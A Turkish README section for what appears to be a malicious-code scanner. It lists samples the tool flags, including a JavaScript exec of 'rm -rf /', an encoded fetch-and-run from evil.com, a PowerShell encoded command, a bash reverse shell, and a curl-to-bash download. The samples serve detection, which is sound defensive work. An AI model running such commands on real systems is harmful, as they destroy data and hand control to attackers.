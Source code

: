 ## Kullanım Örnekleri

### Örnek 1: Eval tespiti
```javascript
// Bu YÜKSEK RİSK olarak tespit edilecek
const result = eval("console.log('Hello World')");
```

### Örnek 2: XOR obfuscation tespiti
```javascript
// Bu ORTA RİSK olarak tespit edilecek
const key = 0x42;
const encrypted = data ^ key;
```

### Örnek 3: Base64 tespiti
```javascript
// Bu ORTA RİSK olarak tespit edilecek
const decoded = atob("SGVsbG8gV29ybGQ=");
```

### Örnek 4: Process çalıştırma tespiti
```javascript
// Bu YÜKSEK RİSK olarak tespit edilecek
const { exec } = require('child_process');
exec('rm -rf /', (error, stdout, stderr) => {
    console.log(stdout);
});
```

### Örnek 5: Hassas bilgi tespiti
```javascript
// Bu YÜKSEK RİSK olarak tespit edilecek
const apiKey = "sk-1234567890abcdef";
const password = "mypassword123";
```

### Örnek 6: Terminal kötü niyetli komut tespiti
```bash
# Bu YÜKSEK RİSK olarak tespit edilecek - Base64 kodlanmış komut
echo "d2dldCBodHRwOi8vZXZpbC5jb20vc2hlbGwuc2ggfCBzaA==" | base64 -d | bash

# Bu YÜKSEK RİSK olarak tespit edilecek - PowerShell kodlanmış komut
powershell -enc "JABwYXlsb2FkID0gW0NvbnZlcnRdOjpGcm9tQmFzZTY0U3RyaW5nKCJpdm9yL2Z1anNvL2Z1anNvIik7IEludm9rZS1FeHByZXNzaW9uICRwYXlsb2Fk"

# Bu YÜKSEK RİSK olarak tespit edilecek - Reverse shell
bash -i >& /dev/tcp/192.168.1.100/4444 0>&1

# Bu ORTA RİSK olarak tespit edilecek - Dosya indirme ve çalıştırma
curl -s http://malicious.com/payload.sh | bash
```
